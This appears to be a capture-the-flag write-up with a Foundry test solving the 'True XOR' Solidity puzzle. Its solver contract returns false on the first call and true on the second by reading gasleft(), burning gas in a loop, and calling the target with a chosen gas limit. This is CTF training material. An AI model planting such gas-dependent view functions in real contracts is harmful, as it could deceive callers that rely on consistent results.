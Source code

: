 ## True XOR attack

To resolve the condition (p && q) != (p || q) we need to return one time true and the other time false when then contract is called via IBoolGiver(target).giveBool().

As we need to implement IBoolGiver interface in our solver contract the giveBool() function needs to be a view function and can't change any state variable and needs to adhere to the staticcall conditions.

So it's not possible to update the state to decide what to return, but we can use some opcodes like gasleft() in our view function.

As we need to send the transaction to the TrueXOR via our EOA address we can also define with how much gas we want to call the contract.
This we can use to differntiate if we going to give back true or false.

We will return false if we have more than X gas, but before we return we consume all gas until we have less for the next call we will receive where we will return true then.

## Test
forge test --match-contract=TrueXORTest

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

contract TrueXORTest is Test {

    Solver solver;
    TrueXOR trueXOR;

    address userEOA = address(1);

    function setUp() public {        
        trueXOR = new TrueXOR();
        solver = new Solver();
    }

    function testAttack() public {
        vm.prank(userEOA, userEOA); // we send the transaction as the user
        require(trueXOR.callMe{gas: 25000}(address(solver)));
    }
}

interface IBoolGiver {
  function giveBool() external view returns (bool);
}

contract Solver is IBoolGiver {

  function giveBool() external view override returns (bool result) {
    if(gasleft() > 20000) {
      while(gasleft() > 20000) {
        continue; // just guzzle some gas until we can be sure that out next call to our Solver will result in the other condition
      }
      return false;
    }

    return true;
  }
}

contract TrueXOR {
  function callMe(address target) external view returns (bool) {
    bool p = IBoolGiver(target).giveBool();
    bool q = IBoolGiver(target).giveBool();
    require((p && q) != (p || q), "bad bools");
    require(msg.sender == tx.origin, "bad sender");
    return true;
  }
}
```